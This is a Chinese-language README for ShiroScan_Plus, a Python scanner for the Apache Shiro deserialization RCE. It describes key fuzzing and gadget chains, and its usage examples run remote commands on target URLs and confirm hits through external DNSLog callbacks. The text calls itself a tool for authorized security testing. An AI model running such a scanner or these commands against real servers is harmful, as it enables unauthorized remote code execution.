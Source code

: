 # ShiroScan_Plus
ShiroScan_Plus是基于sv3nbeast/ShiroScan改进的增强版的Shiro反序列化一键检测工具
 
## 声明
* 不推荐当做exp使用，效率问题
* 仅供安全人员验证,测试是否存在此漏洞
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) ，勿用于非授权的测试，本人不负任何连带法律责任。**  

## 新改动内容
1. 更正requirements.txt，优化代码规范和逻辑问题。 
2. 用[**Koalr**](https://github.com/zema1) 的利用链 
   CommonsCollectionsK1到K4替代CommonsCollections1到7
3. 为了Windows用户方便安装pycrypto，requirements.txt中添加了pycryptodome==3.9.8
4. 增加参数解析，增加DNSLog验证、URL文件批量处理、输出到文件等功能，多个功能可以配合使用。   

## 原改动内容  

1. 新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
2. 增加多线程，虽模块增加但速度却提高300%
3. 集成21个key进行fuzz  

## 使用方法  
**运行环境为Python3**
```
* 安装依赖：pip install -r requirments.txt  
* 获取帮助：python3 shiro_rce_plus.py --help
```

```
* 使用示例     
* Example：python3 shiro_rce_plus.py -u https://url.com -c "whoami"
* Example: Python3 shiro_rce_plug.py -f urls.txt -c "whoami"
* Example: Python3 shiro_rce_plug.py -v -f urls.txt --dnslog "{randstr}.testdnslog.com"  
            --check_dnslog "http://check.testdnslog.com/{randstr}"  --flag "True"  
            --output res.txt
```  

## 帮助信息
```
* python3 shiro_rce_plus.py --help  
  

 ____  _     _          ____                  ____  _
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __ |  _ \| |_   _ ___
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \| |_) | | | | / __|
 ___) | | | | | | | (_) |__) | (_| (_| | | | |  __/| | |_| \__ \
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|_|   |_|\__,_|___/

                           原作者： 斯文
                           修改：  Hack3rHan

usage: shiro_rce_plus.py [-h] [-u URL] [-f FILE] [-c COMMAND] [-v] [--output OUTPUT] [--dnslog DNSLOG]
                         [--flag FLAG] [--check_dnslog CHECK_DNSLOG]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     待检测单个URL。
  -f FILE, --file FILE  待检测URL文件，换行分割。
  -c COMMAND, --command COMMAND
                        要执行的命令。
  -v, --verify          使用DNSLog验证。
  --output OUTPUT       输出到文件，文件不存在会自动创建。
  --dnslog DNSLOG       包含{randstr}的字符串，randstr会被format。
  --flag FLAG           DNSlog检查页面包含的关键词。
  --check_dnslog CHECK_DNSLOG
                        包含{randstr}的字符串，randstr会被format。


```
## 其他
* 新利用链来自[**Koalr**](https://github.com/zema1) 的https://mp.weixin.qq.com/s/jV3B6IsPARRaxetZUht57w  
* 如果有帮助，请点个star哦，对应blog文章：http://www.svenbeast.com/post/tskRKJIPg/
* http://www.dnslog.cn/  验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来
* 11个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，在moule下的源代码中自行添加方法即可
* 为了脚本运行简单，多线程数量不是使用者传参控制，默认20线程，如需改动请到/moule/main.py第20行代码自行修改控制线程的参数  

